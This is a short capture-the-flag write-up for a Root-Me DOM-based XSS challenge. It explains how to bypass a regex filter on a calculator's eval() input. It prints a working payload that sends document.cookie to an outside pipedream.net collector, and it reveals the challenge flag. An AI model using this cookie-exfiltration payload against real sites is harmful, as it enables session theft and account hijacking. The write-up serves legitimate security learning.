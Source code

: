 # XSS DOM Based - Eval

In this chall, you will be provided with a calculator that can add, substract, multiply and divide. There is only one input field so we will attack on that.

![anh1](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/XSS_DOM_Based_Eval1.png)

Enter a string and this is what you'll get.

![anh2](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/XSS_DOM_Based_Eval2.png)

If you look carefully, the regex is not very hard to bypass. Just input an expression at the start of the input, after that we can do anything we want.

Now I wil tell you how to solve this challenge. The `eval()` function can execute one or more commands in only one call like this:
`eval(<expression1>,<expression2>,<expression3>)`. For example, if you use `eval(alert(1),alert(2))`, you will get 2 popup alert box. So we will leverage this and solve this challenge. The payload to exploit this challenge will be like `1+1,<your payload>`. We use `1+1` to bypass the regex, after that we will use `,` to pass another parameter to the `eval()` function, that is our payload. However, if you use alert(), you will get this:

![anh3](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/XSS_DOM_Based_Eval3.png)

The `()` is filtered, so I used `document.location` to XSS, and It's success! The payload I used to solved this challenge is  

```javascript

1+1,document.location="https://eo3f8xwoiu4uj8s.m.pipedream.net/?"+document.cookie

```

Wait for a short time and the flag is arrived :D

![anh4](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/XSS_DOM_Based_Eval4.png)

Flag is `rootme{Eval_Is_DangER0us}`

![anh5](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/XSS_DOM_Based_Eval5.png)